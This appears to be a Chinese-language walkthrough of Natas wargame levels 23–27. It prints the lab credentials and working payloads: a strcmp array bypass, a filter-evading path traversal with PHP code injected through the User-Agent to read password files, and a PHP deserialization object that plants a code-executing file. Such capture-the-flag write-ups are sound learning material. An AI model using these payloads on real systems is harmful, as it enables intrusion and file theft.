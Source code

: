 ```
curl -isu natas23:D0vlad33nQF0Hz2EP255TP5wSW9ZsRSE http://natas23.natas.labs.overthewire.org -F "passwd=11iloveyou"

...
Username: natas24 Password: OsRmXFguozKpTZZ5X14zNO43379LZveg
```

25. strcmp无法比较数组

```
if(array_key_exists("passwd",$_REQUEST)){
        if(!strcmp($_REQUEST["passwd"],"<censored>")){
            echo "<br>The credentials for the next level are:<br>";
            echo "<pre>Username: natas25 Password: <censored></pre>";
        }
        else{
            echo "<br>Wrong!<br>";
        }
    }
```

```
curl -isu natas24:OsRmXFguozKpTZZ5X14zNO43379LZveg http://natas24.natas.labs.overthewire.org -F "passwd[]=1"

...
<b>Warning</b>:  strcmp() expects parameter 1 to be string, array given in <b>/var/www/natas/natas24/index.php</b> on line <b>23</b><br />
<br>The credentials for the next level are:<br><pre>Username: natas25 Password: GHF6X7YwACaYYssHVY05cFq83hRktl4c</pre> 
```

26. if是一次性把所有符合的替换掉，构造复合的参数即可绕过，例如：....//、..././。

```
curl -isu natas25:GHF6X7YwACaYYssHVY05cFq83hRktl4c natas25.natas.labs.overthewire.org -d "lang=..././..././..././..././..././tmp/natas25_6u790jr22d4ou5ilfmv4gh2423.log"  --user-agent "<?passthru(\"cat /etc/natas_webpass/natas26\")?>"

...
oGgWAJ7zcGT28vYazGo4rkhOPDhBu34T
```

27. php反序列化漏洞、代码审计

```
<?php
class Logger{
        private $logFile;
        private $initMsg;
        private $exitMsg;
        function __construct(){   #注入信息
            $this->initMsg="";
            $this->exitMsg="<?echo include '/etc/natas_webpass/natas27';?>";
            $this->logFile="img/aaa.php";
        }
}
 
$test = new Logger();
echo serialize($test);
echo "\n";
echo base64_encode(serialize($test));    #显示base64编码后的序列化字符串
?>
```
